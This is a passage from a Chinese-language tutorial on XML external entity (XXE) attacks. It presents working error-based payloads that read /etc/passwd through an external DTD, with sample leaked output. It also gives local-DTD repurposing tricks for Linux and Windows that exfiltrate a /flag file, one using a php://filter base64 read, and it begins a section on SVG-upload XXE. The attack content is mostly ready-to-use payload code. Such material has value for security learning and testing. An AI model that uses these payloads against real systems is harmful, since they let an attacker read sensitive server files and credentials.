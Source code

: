 ```xml
<!-- Contents of ext.dtd -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
**Response:**
```html
java.io.FileNotFoundException: /nonexistent/
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
daemon:x:2:2:daemon:/:/usr/bin/nologin
(No such file or directory)
```
### **通过引用本地DTD文件**
如果目标主机的防火墙十分严格，不允许我们请求外网服务器dtd呢？由于XML的广泛使用，其实在各个系统中已经存在了部分DTD文件。
```xml
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;file://hhhhhhhh/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
<message>1234</message>
```
但是虽然W3C协议是不允许在内部的实体声明中引用参数实体，但是很多XML解析器并没有很好的执行这个检查。几乎所有XML解析器能够发现如下这种两层嵌套式的。
```xml
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ELEMENT message ANY>
    <!ENTITY % para1 SYSTEM "file:///flag">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
<message>10</message
```
**各个平台本地DTD示例：**
```xml
Custom Linux System
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa 'Your DTD code'>
%local_dtd;

Custom Windows System
<!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
<!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
%local_dtd;
```
## **2.5 SVG图片上传类型XXE**
有些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML的格式的例子有DOCX等office文档格式和SVG等图像格式。
应用程序可能允许用户上载图像，并在上载后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG等格式，所使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，攻击者可以提交恶意SVG图像，从而到达XXE漏洞的隐藏攻击面。
```xml
```